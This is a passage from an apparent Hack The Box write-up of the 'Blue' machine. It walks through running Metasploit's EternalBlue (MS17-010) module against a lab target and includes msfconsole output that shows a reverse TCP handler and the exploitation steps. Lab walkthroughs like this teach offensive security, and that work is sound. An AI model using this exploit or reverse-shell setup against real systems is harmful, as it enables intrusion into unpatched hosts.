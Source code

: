 Okay cool. It confirms what we already sort of know. But mainly, it's good to know this is here.  

Let's use this one. The other's seem specific to different things and this is the most generic.  

![SettingOptions](/assets/img/Walkthroughs/Blue/MetasploitOptions.png)   

Make sure you check what your IP is. For some reason it defaults to my wlan adapter soo. Check this.  

Alrighty then. Fire this mug off. But know that this exploit is super delicate. It has taken me 3-4 tries before it works in the past. With HTB feel free to at this point just reset the machine if you're having problems.


So I couldn't get a screenshot. The first time I ran this months ago it worked great. While writing this post, I tried it 4 times and it didn't. So. That's a thing. Here is the output from the first time I got it to work. 

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
```